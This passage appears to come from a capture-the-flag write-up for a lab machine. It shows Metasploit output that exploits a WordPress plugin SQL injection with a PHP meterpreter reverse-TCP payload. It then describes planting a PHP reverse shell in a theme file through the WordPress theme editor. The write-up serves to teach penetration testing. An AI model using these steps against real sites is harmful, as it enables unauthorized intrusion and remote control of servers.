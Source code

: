 ```bash
                                                      d proxies: socks5, socks5h, sapni, http, socks4
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                                      oit/basics/using-metasploit.html
   RPORT      80                            yes       The target port (TCP)
   SSL        false                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                             yes       The base path to the wordpress application
   USERNAME   hana.marks                    no        Username to create
   VHOST                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > set RHOSTS mamushka.hmv
RHOSTS => mamushka.hmv
msf6 exploit(multi/http/wp_automatic_sqli_to_rce) > run
```
{: .nolineno }

Using the `creds` logging into the `wordpress` site and look for theme editor and choose any theme and go to any `php` extension file, I choose `index.php` file where I putted my `php_reverse_shell` code into it and saved it successfully.

![](Pasted%20image%2020250810094137.png)
_Path to edit the themes files_

![](Pasted%20image%2020250810094316.png)
_Uploading the php reverse shell into index.php file_

If you can update the file successfully then its time to activate the theme from here 🔻

![](Pasted%20image%2020250810094918.png)
_Activation of theme_

